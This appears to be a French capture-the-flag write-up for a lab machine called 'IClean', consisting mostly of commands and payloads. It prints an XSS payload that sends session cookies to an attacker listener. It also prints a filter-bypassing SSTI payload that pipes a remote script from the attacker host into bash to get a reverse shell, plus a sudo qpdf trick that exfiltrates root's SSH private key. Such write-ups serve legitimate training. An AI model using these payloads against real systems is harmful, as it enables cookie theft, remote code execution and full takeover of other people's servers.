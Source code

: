   # IClean

	echo "10.10.11.12 capiclean.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.12 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.12 -oN nmap.txt
	dirb http://capiclean.htb
	
Scans classiques.

  
	PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))


Dossiers :


    + http://capiclean.htb/about (CODE:200|SIZE:5267)                                                                  
    + http://capiclean.htb/dashboard (CODE:302|SIZE:189)                                                               
    + http://capiclean.htb/login (CODE:200|SIZE:2106)                                                                  
    + http://capiclean.htb/logout (CODE:302|SIZE:189)                                                                  
    + http://capiclean.htb/quote (CODE:200|SIZE:2237)                                                                  
    + http://capiclean.htb/server-status (CODE:403|SIZE:278)                                                           
    + http://capiclean.htb/services (CODE:200|SIZE:8592)                                                               
    + http://capiclean.htb/team (CODE:200|SIZE:8109) 


"Quote" => http://capiclean.htb/quote => POST /sendMessage HTTP/1.1 => XSS


Payload : 

    service=<img+src%3dx+onerror%3dthis.src%3d"http%3a//10.10.16.14%3a8000/"%2bbtoa(document.cookie)>&email=bite@gmail.com

Réception du cookie : 

    10.10.11.12 - - [07/Apr/2024 14:09:23] "GET /c2Vzc2lvbj1leUp5YjJ4bElqb2lNakV5TXpKbU1qazNZVFUzWVRWaE56UXpPRGswWVRCbE5HRTRNREZtWXpNaWZRLlpoSE5Ldy41ai1pRDZvcVE5QzIxcFZGakVYSkFFNm05R28= HTTP/1.1" 404 -

Cookie décodé à ajouter : 
    
    session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhHNKw.5j-iD6oqQ9C21pVFjEXJAE6m9Go


SSTI avec Unicode sur la fonctionnalité de génération d'un QR code : 


    POST /QRGenerator HTTP/1.1
    [...]
    invoice_id=&form_type=scannable_invoice&qr_link={{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl+10.10.16.14:8000/x.sh+|+bash")|attr("read")()}}&form_type=scannable_invoice&qr_link=a
    

Réception du shell en tant que www-data :

    rlwrap nc -nvlp 9999
    python -m http.server 8000
    whoami 


## Pivoting 

Mot de passe MySQL en clair dans ./app.py et bruteforcing d'un hash trouvé dans la base de données.

    ssh consuela@10.10.11.12
    cat user.txt
    
## Élévation de privilèges

Exploitation d'une fonctionnalité de QPDF pour ajouter la clé SSH de root en tant que fichier joint à un PDF.

	sudo -l

    sudo qpdf --add-attachment /root/.ssh/id_rsa --mimetype=text/plain -- /usr/share/doc/shared-mime-info/shared-mime-info-spec.pdf poc.pdf
    
    python3 -m http.server 8000

    [...]

    wget http://10.10.11.12:8000/poc.pdf
    
    okular poc.pdf
    
    vim id_rsa
    chmod 600 id_rsa

    ssh root@10.10.11.12 -i id_rsa
    
	cat /root/root.txt
    
    
    
